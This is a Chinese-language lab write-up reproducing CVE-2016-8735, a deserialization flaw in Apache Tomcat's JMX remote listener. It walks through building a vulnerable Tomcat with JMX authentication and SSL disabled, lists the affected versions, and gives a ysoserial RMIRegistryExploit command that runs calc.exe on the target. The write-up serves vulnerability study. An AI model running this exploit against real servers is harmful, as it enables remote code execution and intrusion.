


# 0x00 软件介绍
Tomcat：一款流行的java web应用服务器

# 0x01 复现环境
使用环境：本地搭建的环境  
复现版本：Apache Tomcat 8.0.36

# 0x02 环境搭建
靶机环境：win7_ult_x64_zh-chs

下载并解压apache-tomcat-8.0.36.zip  
下载并安装jdk-7u79-windows-x64.exe  
配置环境变量JAVA_HOME（这里有一点需要注意：配置环境变量JAVA_HOME前也可在cmd.exe下执行“java.exe -version”，原因是jdk安装完毕后会自动将java.exe及相关文件拷贝到c:\windows\system32\下）  
在conf/server.xml中添加以下语句  
```
<Listener className="org.apache.catalina.mbeans.JmxRemoteLifecycleListener" rmiRegistryPortPlatform="10001" rmiServerPortPlatform="10002" />
```
  
然后下载catalina-jmx-remote.jar包和groovy-2.3.9.jar包，放到tomcat的lib目录下  
注意：  
1、下载的catalina-jmx-remote.jar要与对应tomcat版本一致，一般这个jar包的下载地址位于官方tomcat下载目录的extras文件夹里  
2、下载groovy，版本最好为2.3.9，官网已经不提供下载了，附上下载地址：https://mvnrepository.com/artifact/org.codehaus.groovy/groovy/2.3.9  
接着修改bin/catalina.bat，在Execute The Requested Command上面添加  
```
set CATALINA_OPTS=-Dcom.sun.management.jmxremote.ssl=false -Dcom.sun.management.jmxremote.authenticate=false
```
-Dcom.sun.management.jmxremote.ssl=false 指定是否使用SSL通讯  
-Dcom.sun.management.jmxremote.authenticate=false 指定是否需要密码验证  
  
最后运行bin/startup.bat启动tomcat!  
  
查看目标是否启动了JmxRemoteLifecycleListener，即是否监听端口10001，10002，经查看，已启动  


# 0x03 利用条件
目标是否启动了JmxRemoteLifecycleListener，即是否监听端口10001，10002

# 0x04 影响版本
Apache Tomcat 9.0.0.M1 to 9.0.0.M11  
Apache Tomcat 8.5.0 to 8.5.6  
Apache Tomcat 8.0.0.RC1 to 8.0.38  
Apache Tomcat 7.0.0 to 7.0.72  
Apache Tomcat 6.0.0 to 6.0.47

# 0x05 漏洞复现
攻击环境：Kali-Linux-2020.2-vmware-amd64

下载ysoserial，执行  
```
java -cp ./ysoserial-master-6eca5bc740-1.jar ysoserial.exploit.RMIRegistryExploit 192.168.149.134 10001 Groovy1 calc.exe
```
可以看到靶机上弹出了计算器  


# 0x06 踩坑记录
坑1：  
tomcat相同版本，在java 1.8.0_131下无法弹出计算机。觉得这个漏洞应该还和java版本有关。和groovy版本也有关  

# 0x07 参考链接
https://blog.csdn.net/littlehaes/article/details/104451590  
https://gv7.me/articles/2018/CVE-2016-8735/  
https://github.com/frohoff/ysoserial  
http://cn.voidcc.com/question/p-zmdzyjue-bbh.html
